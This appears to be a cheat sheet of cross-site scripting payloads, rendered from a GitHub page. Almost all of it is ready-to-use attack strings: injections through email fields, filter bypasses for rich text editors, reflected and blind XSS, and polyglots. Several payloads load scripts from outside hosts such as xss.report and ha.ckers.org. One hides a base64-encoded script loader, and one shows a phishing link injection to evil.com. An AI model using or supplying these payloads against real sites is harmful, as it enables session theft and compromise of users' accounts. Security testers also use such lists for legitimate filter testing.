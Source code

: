 ```html
admin1@example.com<script>alert('xss');</script> 
“><svg/onload=confirm(1)>”@x.y 
"hello<form/><!><details/open/ontoggle=alert(1)>"@gmail.com 
["');alert('XSS');//"]@xyz.xxx 
"<svg/onload=alert(1)>"@gmail.com 
test@gmail.com%27\\%22%3E%3Csvg/onload=alert(/xss/)%3E

# XSS Bypass for Rich Text Editors
<</p>iframe src=javascript:alert()//
<a href="aaa:bbb">x</a>
<a href="j%26Tab%3bavascript%26colon%3ba%26Tab%3blert()">x</a>
[Click on me to claim 100$ vouchers](<https://evil.com>) -> Hyperlink Injection

# XSS Reflected in JSON Format and “{}” Forbidden
test%2Aconsole.log(1337)//’;

# XSS Reflected in `<link>` OR `<input type=hidden>` attribute when add param
/?lol=h0tak88r’accesskey=’x’onclick=’alert(0)’ # But the Victim must click ALT+SHIFT+X



# [Jhaddix](https://github.com/R0X4R/D4rkXSS/blob/master/jhaddix.txt)
'%22--%3E%3C/style%3E%3C/script%3E%3Cscript%3Eshadowlabs(0x000045)%3C/script%3E
<<scr\\0ipt/src=http://xss.com/xss.js></script%27%22--%3E%3C%2Fstyle%3E%3C%2Fscript%3E%3Cscript%3ERWAR%280x00010E%29%3C%2Fscript%3E
' onmouseover=alert(/Black.Spook/)

# [RSnake](https://github.com/R0X4R/D4rkXSS/blob/master/rsnake.txt)
<SCRIPT>alert('XSS');</SCRIPT>
'';!--"<XSS>=&{()}
<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>   

# [Mario](https://github.com/R0X4R/D4rkXSS/blob/master/mario.txt)
<div id="1"><form id="test"></form><button form="test" formaction="javascript:alert(1)">X</button>//["'`-->]]>]</div><div id="2"><meta charset="x-imap4-modified-utf7">&ADz&AGn&AG0&AEf&ACA&AHM&AHI&AGO&AD0&AGn&ACA&AG8Abg&AGUAcgByAG8AcgA9AGEAbABlAHIAdAAoADEAKQ&ACAAPABi//["'`-->]]>]</div><div id="3"><meta charset="x-imap4-modified-utf7">&<script&S1&TS&1>alert&A7&(1)&R&UA;&&<&A9&11/script&X&>//["'`-->]]>]</div><div id="4">0?<script>

# Blind Xss
'"><script src=//xss.report/s/M8SZT8></script>
"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Ii8veHNzLnJlcG9ydC9zL004U1pUOCI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs&#61; onerror=eval(atob(this.id))>
# Using Burp Collaborator
<https://medium.com/@jr.mayank1999/exploiting-blind-xss-with-burp-collaborator-client-fec38b5fc5e>
```

# **polyglots**
    
```jsx
    jaVasCript:/*-/*`/*\\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\\x3csVg/<sVg/oNloAd=alert()//>\\x3e
    ';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
    “ onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//
    '">><marquee><img src=x onerror=confirm(1)></marquee>"></plaintext\\></|\\><plaintext/onmouseover=prompt(1)><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->"></script><script>alert(1)</script>"><img/id="confirm&lpar;1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="<http://i.imgur.com/P8mL8.jpg>">
    javascript://'/</title></style></textarea></script>--><p" onclick=alert()//>*/alert()/*
    javascript://--></script></title></style>"/</textarea>*/<alert()/*' onclick=alert()//>a
```